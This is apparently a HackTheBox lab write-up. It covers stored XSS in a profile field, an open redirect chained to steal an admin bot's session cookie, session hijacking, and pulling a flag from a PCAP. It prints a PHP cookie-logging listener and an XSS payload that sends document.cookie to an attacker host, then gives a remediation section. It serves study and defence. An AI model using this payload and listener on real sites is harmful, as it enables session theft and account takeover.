



# Session Security — Stored XSS, Open Redirect, and Session Hijacking

**Author:** Spencer Leach  
**Date:** March 16, 2026  
**Platform:** HackTheBox  
**Topics:** Stored XSS, Cookie Theft, Open Redirect Chaining, Session Hijacking, PCAP Analysis

---

## Assets

| IP Address | Domain | Accounts |
|------------|--------|----------|
| 10.129.20.220 | minilab.htb.net | heavycat106, superadmin |

---

## Steps Taken

### 1. Host Configuration

Add the target vhost to `/etc/hosts` to reach the lab environment:

```bash
echo "10.129.20.220 minilab.htb.net" | sudo tee -a /etc/hosts
```

---

### 2. Initial Access

Log in with the provided test account:

- **URL:** http://minilab.htb.net
- **Username:** heavycat106
- **Password:** rocknrol

---

### 3. XSS Discovery

Tested input fields for XSS vulnerabilities. The **Country field in the user profile** was found to be vulnerable to **stored XSS** — input is saved to the database and rendered without sanitization whenever the profile is viewed.



---

### 4. Cookie-Stealing Listener

Created `index.php` to act as a listener that captures cookies sent via GET parameter and logs them to file:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];
$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);
header("Location: http://www.google.com/");
exit;
?>
```

Start the listener:

```bash
php -S 10.10.15.61:8080
```

---

### 5. XSS Payload Construction

Injected the following payload into the Country field. This uses a CSS animation event to fire JavaScript that redirects the browser to the listener with the victim's cookies appended as a query parameter:

```html
<style>@keyframes x{}</style>
<video style="animation-name:x" onanimationend="window.location =
'http://10.10.15.61:8080/index.php?c=' + document.cookie;"></video>
```

Saved the profile and clicked **Share** to trigger the payload. The listener successfully captured the `auth-session` cookie.

---

### 6. Open Redirect Chaining for Admin Cookie Theft

An enumerated page on the site contained a `?url=` parameter vulnerable to open redirect:

```
?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

**Attack chain:** Instead of triggering XSS directly via the Share link, the payload was chained through the redirect URL. This caused an admin bot (simulating an admin session) to:
1. Follow the redirect URL
2. Land on the compromised profile page
3. Execute the stored XSS payload
4. Send the admin's session cookie back to the PHP listener

Re-injected the XSS payload, restarted the PHP server, and triggered via the redirect URL. The **admin session cookie** was captured.

---

### 7. Session Hijack

Copied the captured admin cookie and pasted it into the browser.

> **Important:** The redirect URL must be opened in a **private/incognito window**. If opened in a normal session, cookie conflicts prevent the hijack from completing. Re-running the process in a private window loaded the admin session successfully.





---

### 8. Flag Retrieval

Inside the admin profile, making the profile public revealed the first flag:

```
FLAG
```

---

### 9. PCAP Flag Extraction

A PCAP file was available on the admin's page. Traffic was HTTP (cleartext), so the flag was in plaintext. Filtered in Wireshark:

```
http contains "FLAG"
```

Result:

```
FLAG
```

---

## Findings

### Relevant Frameworks

**OWASP Top 10 (2021)**
- [A03:2021 — Injection](https://owasp.org/Top10/A03_2021-Injection/) — Stored XSS in Country field
- [A07:2021 — Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/) — Session hijacking via cookie theft
- [A01:2021 — Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/) — Open redirect enabling admin cookie theft

**CWE**
- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) — Improper Neutralization of Input During Web Page Generation (XSS)
- [CWE-601](https://cwe.mitre.org/data/definitions/601.html) — URL Redirection to Untrusted Site (Open Redirect)
- [CWE-614](https://cwe.mitre.org/data/definitions/614.html) — Sensitive Cookie Without 'Secure' Attribute
- [CWE-319](https://cwe.mitre.org/data/definitions/319.html) — Cleartext Transmission of Sensitive Information

**MITRE ATT&CK**
- [T1539](https://attack.mitre.org/techniques/T1539/) — Steal Web Session Cookie
- [T1040](https://attack.mitre.org/techniques/T1040/) — Network Sniffing (PCAP credential extraction)

---

## Remediation

### CWE-79 — Stored XSS (Country Field)
- Set the **HttpOnly** flag on session cookies to prevent JavaScript from accessing them
- Implement **Content Security Policy (CSP)** headers to restrict which scripts can execute
- Restrict user input to alphanumeric characters where HTML is not required
- Use **output encoding** to convert HTML special characters into safe representations
- Deploy a **WAF** as an additional detection layer (not a substitute for secure coding)

### CWE-601 — Open Redirect (`?url=` Parameter)
- Avoid using open redirector scripts entirely where possible
- Do not grant users control over destination URLs — use internal IDs that map to whitelisted URLs
- Implement a whitelist of permissible redirect targets; assign indirect values to each
- Use relative URLs instead of absolute URLs wherever possible

### CWE-614 / T1539 — Session Cookie Theft
- Implement **multi-factor authentication** so stolen cookies alone are insufficient
- Set **Secure** and **HttpOnly** flags on all session cookies
- Enforce short session timeouts and invalidate cookies on logout
- Bind session tokens to client attributes (IP, user agent) to detect hijacking

### CWE-319 / T1040 — Cleartext Transmission
- Enforce **TLS/SSL** on all communications, including the login mechanism
- Set the **Secure** flag on cookies to prevent transmission over HTTP
- Implement **HSTS** (HTTP Strict Transport Security) to force HTTPS
- Encrypt all traffic regardless of perceived sensitivity — assume all internal traffic can be captured

---

## References

- PortSwigger. Cleartext submission of password. https://portswigger.net/kb/issues/00300100_cleartext-submission-of-password
- OWASP Top 10 2021. https://owasp.org/www-project-top-ten/
- MITRE ATT&CK T1539. https://attack.mitre.org/techniques/T1539/
- CWE-79. https://cwe.mitre.org/data/definitions/79.html
- CWE-601. https://cwe.mitre.org/data/definitions/601.html
